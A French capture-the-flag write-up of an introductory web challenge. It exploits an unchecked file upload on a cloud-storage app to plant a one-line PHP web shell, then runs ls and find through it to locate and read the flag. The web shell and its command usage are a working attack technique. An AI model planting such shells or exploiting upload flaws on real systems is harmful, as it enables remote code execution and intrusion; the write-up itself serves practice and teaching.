





## Challenge 1 : Glissé shellisé

**Catégorie :** Web / File Upload  
**Difficulté :** Introduction  

### Analyse de la cible

L'application **SkyDrive** est une solution de stockage cloud permettant l'upload de fichiers. L'objectif est d'accéder à un "share secret" pour récupérer le flag.

### Vecteur d'attaque : Arbitrary File Upload

La faille réside dans l'absence de vérification du type de fichier côté serveur. Cela permet d'envoyer un script exécutable PHP au lieu d'un document passif.

**Étape 1 : Création du Web Shell**

Un fichier Test.php a été créé avec une backdoor minimaliste en PHP : 

```php
<?php system($_GET['cmd']); ?>
```

Ce code permet d'exécuter des commandes système via le paramètre cmd passé dans l'URL.

**Étape 2 : Téléchargement et accès**

Le fichier a été uploadé avec succès. 

<p align="center">

</p>
<p align="center"><em>Interface d'upload et lien généré</em></p>

L'application génère un lien d'accès unique permettant d'exécuter le script : `.../shares/0d6aeec90d4cc6aff1a5fa5eac9689e8/Test.php`

<p align="center">

</p>
<p align="center"><em>Interface d'upload et fichier présent</em></p>

Lorque l'on clique sur le fichier, nous obtenons ceci : 

<p align="center">

</p>
<p align="center"><em>Page Test.php</em></p>

### Exploitation : Remote Code Execution (RCE)

Une fois le shell en place, nous utilisons des commandes système via l'URL pour explorer le serveur.

* **Vérification du fonctionnement:** L'accès direct au fichier affichait des erreurs PHP (Undefined array key "cmd"), confirmant que le code était bien interprété par le serveur.

* **Exploration locale :** La commande `?cmd=ls -la` a listé les fichiers du répertoire actuel, montrant notre fichier Test.php et un index.php.

<p align="center">

</p>
<p align="center"><em>Fichiers Test.php et index.php</em></p>

### Recherche du Flag : 

Utilisation de la commande **find** pour localiser le flag :

```
?cmd=find / -name "*flag*" 2>/dev/null
```
    
Le fichier est localisé dans : `/var/www/html/shares/.admin-ed3a14b27f5b88e4f53e9145339f982c/flag.txt`

<p align="center">

</p>
<p align="center"><em>Résultat de la recherche du flag sur le système</em></p>

**Flag récupéré :** RM{FLAG_RECUPERE_AVEC_SUCCES}
